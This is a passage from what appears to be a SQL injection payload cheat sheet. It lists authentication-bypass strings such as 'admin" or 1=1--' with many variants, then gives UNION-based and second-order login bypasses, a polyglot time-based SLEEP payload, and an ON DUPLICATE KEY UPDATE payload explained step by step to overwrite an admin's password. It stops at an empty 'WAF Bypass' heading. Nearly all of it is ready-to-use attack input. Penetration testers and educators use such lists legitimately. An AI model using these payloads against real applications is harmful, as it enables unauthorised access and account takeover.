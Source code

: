 ```sql
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```


## Polyglot injection (multicontext)
```sql
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```

## Second order injection
```sql
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```

## Insert Statement - ON DUPLICATE KEY UPDATE
ON DUPLICATE KEY UPDATE keywords is used to tell MySQL what to do when the application tries to insert a row that already exists in the table. We can use this to change the admin password by:
```sql
Inject using payload:
  attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" --

The query would look like this:
INSERT INTO users (email, password) VALUES ("attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" -- ", "bcrypt_hash_of_your_password_input");

This query will insert a row for the user “attacker_dummy@example.com”. It will also insert a row for the user “admin@example.com”.
Because this row already exists, the ON DUPLICATE KEY UPDATE keyword tells MySQL to update the `password` column of the already existing row to "bcrypt_hash_of_qwerty".

After this, we can simply authenticate with “admin@example.com” and the password “qwerty”!
```


## WAF Bypass
